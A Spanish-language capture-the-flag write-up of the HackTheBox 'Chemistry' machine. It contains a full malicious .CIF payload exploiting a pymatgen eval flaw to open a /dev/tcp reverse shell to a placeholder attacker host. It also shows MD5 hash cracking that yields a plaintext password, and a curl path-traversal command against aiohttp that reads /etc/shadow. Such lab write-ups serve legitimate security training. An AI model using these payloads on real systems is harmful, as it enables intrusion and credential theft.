

## Introduction

En el CTF Chemistry de HackTheBox, se identificó una vulnerabilidad en la subida de archivos que afectaba a la biblioteca pymatgen, permitiendo la ejecución de código arbitrario mediante un archivo .CIF malicioso. Aprovechando esta falla, se obtuvo una reverse shell, lo que permitió enumerar procesos y descubrir que el sitio web objetivo corría en localhost:8080 bajo Python 3.9.

Para acceder al sitio desde nuestra máquina, se utilizó SSH Port Forwarding, exponiendo el puerto local de la víctima. Luego, se analizó el servidor con WhatWeb, revelando el uso de aiohttp/3.9.1, y se identificó una ruta estática /assets/, lo que sugería una posible vulnerabilidad de Local File Inclusion (LFI), abriendo la puerta a un acceso más profundo en el sistema.

~~~
Platform: HackTheBox
Level: Easy
OS: Linux
~~~

## Scanning

El comando **`nmap -sV -Pn -n 10.10.11.38 -T4`** se emplea para escanear de manera agresiva (**`-T4`**) la máquina objetivo con el propósito de identificar puertos abiertos, servicios en ejecución y sus versiones. Esta información es clave para detectar posibles vulnerabilidades.



## Enumeration

#### 22/SSH
El puerto 22 ejecuta el servicio SSH versión **OpenSSH 8.2p1**. De momento no tenemos ninguna vulnerabilidad que aprovechar para esta versión.

#### 5000/TCP
Nmap detectó actividad en el puerto pero no pudo determinar con precisión el servicio. Por el contrario, se observa una respuesta HTTP con el servidor `Werkzeug/3.0.3`, que es un servidor de desarrollo de Python. Es posible que en este puerto se esté ejecutando una aplicación web basada en Flask u otro framework similar.

Accediendo a **`http://10.10.11.38:5000`**, encontramos un sitio web denominado Chemistry CIF Analyzer, el cual permite la carga de archivos .CIF (Crystallographic Information File) para su análisis. El sitio también cuenta con opciones de registro e inicio de sesión. Dado que no disponemos de credenciales, procedemos a registrarnos. 



Una vez registrados, se habilita la opción para subir archivos. Además, el sitio proporciona un **archivo de ejemplo** para su descarga.



El archivo descargado es un **.CIF estándar**, lo que confirma que la aplicación analiza estructuras cristalográficas. Dado que este tipo de plataformas suele depender de bibliotecas específicas para el procesamiento de archivos, realizamos una búsqueda de vulnerabilidades en tecnologías relacionadas.



### CVE-2024-23346

Durante una búsqueda rápida en Google, encontramos el **CVE-2024-23346**, una vulnerabilidad crítica en la biblioteca **pymatgen**, ampliamente utilizada para el análisis de archivos **.CIF**.

El problema radica en el método **`JonesFaithfulTransformation.from_transformation_str()`**, el cual utiliza **`eval()`** de forma insegura para procesar entradas. Esto permite la ejecución de código arbitrario al analizar un archivo **`.CIF`** malicioso.

**Fuente: [Github Security Advisory](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)**

## Exploitation

Es posible tomar el payload disponible en el repositorio de GitHub donde se menciona la vulnerabilidad y **modificarlo** para ejecutar una **Reverse Shell**. Esto nos permitirá obtener ejecución remota de comandos (**RCE**), estableciendo una conexión desde la máquina víctima hacia nuestra máquina:

~~~
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c 'sh -i >& /dev/tcp/[IP ADDRESS]/[PORT] 0>&1'");0,0,0'

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
~~~



Una vez creado el archivo **`.CIF`** que contiene el **payload** procedo a subirlo al sitio web mediante **`"Upload"`**.  En primer lugar, es necesario colocar en escucha en nuestra máquina el puerto especificado anteriormente en la reverse shell. esto se realiza mediante la herramienta **`Netcat`** con el siguiente comando: **`nc -lvnp [PORT]`**. 

Una vez hecho todo lo anterior, le damos a **`"View"`** para ejecutar el **payload**. Al hacer click el servidor intentará procesar el archivo y debido a la vulnerabilidad en **pymatgen**, nuestro **payload** se ejecutará automáticamente.
  

Si la explotación fue un exito, en la terminal se recibirá una conexión desde la máquina objetivo, permitiendo ejecutar comandos con los privilegios del usuario comprometido:

## Privilege Escalation

Dentro de la máquina comprometida, encontramos el código fuente de la aplicación web (**app.py**), el cual hace referencia a una base de datos **SQLite** llamada **`database.db`**.

Se empleó el comando **`find / -type f 2>/dev/null | grep "database.db"`** con el propósito de localizar el archivo de base de datos. El resultado de la ejecución reveló que se encuentra ubicado en la ruta **`/home/app/instance/database.db`**.



Al inspeccionar su contenido, encontramos una tabla de usuarios con credenciales almacenadas en formato MD5 **MD5**.



Utilizamos **Hashcat** para intentar recuperar las credenciales. Finalmente, obtenemos:
~~~
Username: rosa
Password: unicorniosrosados
~~~



Se estableció una conexión SSH con el sistema objetivo, autenticándose como el usuario **`rosa`** a través del puerto 22:



Se realizó un análisis de los procesos del sistema mediante la ejecución del comando **`ps aux`**, este comando lista todos los procesos en ejecución junto con el usuario que los ejecuta. Este mismo permitió identificar un proceso en ejecución perteneciente al usuario **root**, ejecutado por Python 3.9 y ubicado en **`/opt/monitoring_site/app.py`**. El título del directorio sugiere que se trata de una aplicación web de monitoreo.

Al intentar acceder a este archivo, el sistema devuelve un mensaje de **"Acceso no autorizado"**, lo que indica que no se cuentan con los permisos necesarios para visualizarlo o modificarlo.

La ejecución del comando **`netstat -tuln`** reveló que un servicio está activo en el puerto **8080**, accesible únicamente desde **localhost**. Lo más probable es que se trate del sitio de monitoreo.

Las sospechas se confirman al ejecutar un **cURL** hacia la dirección del sitio, lo que expone su estructura en **HTML**. En la respuesta, se observa que el título de la página es **"Site Monitoring"**.

### SSH Port Forwarding

> El **Port Forwarding** (reenvío de puertos) nos permite redirigir el tráfico de red de un puerto en la máquina víctima a nuestra máquina local, permitiéndonos acceder al servicio como si estuviera disponible en nuestra propia red

Dado que el sitio web se ejecuta en **localhost** dentro de la máquina víctima y nosotros contamos con acceso mediante **RCE**, no podemos visualizarlo directamente desde nuestra máquina local. Para solucionar esto, es necesario realizar **SSH Port Forwarding**.

Se establece un túnel SSH para exponer el puerto **8080** del localhost de la víctima en nuestra máquina y así visualizar el sitio web desde nuestro navegador. Esto se realiza mediante el comando **`ssh -L 8080:127.0.0.1:8080 rosa@10.10.11.38`**



Esto nos permite abrir el sitio web en nuestro navegador como si estuviera en nuestra red local.

Ejecutamos la herramienta **WhatWeb** para obtener información sobre las tecnologías en uso. En este caso, el servidor web en ejecución es **python/3.9** con **`aionhttp/3.9.1`** 

Esta información es relevante, ya que nos permite investigar posibles vulnerabilidades asociadas con la versión específica de **aiohttp**



> **aiohttp** es una biblioteca de Python basada en **asyncio** que permite la creación de clientes y servidores HTTP de manera asíncrona. Su principal ventaja es la capacidad de manejar múltiples solicitudes simultáneamente sin bloquear la ejecución del programa.

### CVE-2024-23334

La versión **3.9.1** de **aiohttp** presenta una vulnerabilidad crítica de **path traversal**, identificada como **CVE-2024-23334**. Esta vulnerabilidad permite a atacantes no autenticados acceder a archivos sensibles en el servidor al explotar rutas estáticas mal configuradas que siguen enlaces simbólicos sin la debida validación.

Cuando **aiohttp** se utiliza como servidor web y se configuran rutas estáticas con la opción **`follow_symlinks`** habilitada, no se valida correctamente si los archivos accedidos están dentro del directorio raíz especificado. Esto puede permitir a un atacante realizar ataques de **directory traversal** y acceder a archivos fuera del directorio permitido.

**Fuente: [LFI-aiohttp-CVE-2024-23334-PoC](https://github.com/TheRedP4nther/LFI-aiohttp-CVE-2024-23334-PoC)**

En el sitio web, se confirma la existencia de una ruta estática **`/assets/`**. Esto refuerza la idea de que la aplicación podría ser vulnerable a **Local File Inclusion (LFI)**, permitiendo el acceso no autorizado a archivos del sistema.



Mediante **cURL**, verificamos la existencia de esta vulnerabilidad utilizando el siguiente comando: **`curl --path-as-is http://127.0.0.1:8080/assets/../../../../../../../../etc/shadow`** 



El comando confirma que la aplicación es vulnerable a **LFI**, permitiendo acceder al archivo **`/etc/shadow`**. Esto, a su vez, abre la posibilidad de leer las credenciales de root, exponiendo la seguridad del sistema y facilitando la obtención de la **root flag**.

**ROOTED**

**[Verify Achievement](https://www.hackthebox.com/achievement/machine/2035837/631)**

